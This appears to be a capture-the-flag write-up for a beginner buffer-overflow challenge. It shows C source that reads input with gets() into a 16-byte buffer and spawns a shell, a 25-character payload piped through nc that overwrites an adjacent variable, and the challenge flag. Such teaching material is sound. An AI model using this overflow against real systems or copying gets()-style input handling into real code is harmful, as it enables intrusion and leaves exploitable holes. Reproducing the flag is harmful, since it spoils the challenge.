# coffer-overflow-0

> Can you fill up the coffers? We even managed to find the source for you.


> nc 2020.redpwnc.tf 31199


Files provided:
* coffer-overflow-0.c  -  C source code
* coffer-overflow-0   - 64bit ELF file

C source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```

Our goal is to make the condition `code != 0` true, in order to execute the code contained in the if:
```c
    system("/bin/sh");
``` 
So, we have to modify the variable `code`.
To do this, we can cause a buffer overflow, as we can overwrite the memory beyond the name limits.
To modify `code` we have to enter at least 25 chars. 
```sh
$   ( python -c "print 'A'*25"; cat ) | nc 2020.redpwnc.tf 31199
```

And here is the flag: `flag{b0ffer_0verf10w_3asy_as_123}`
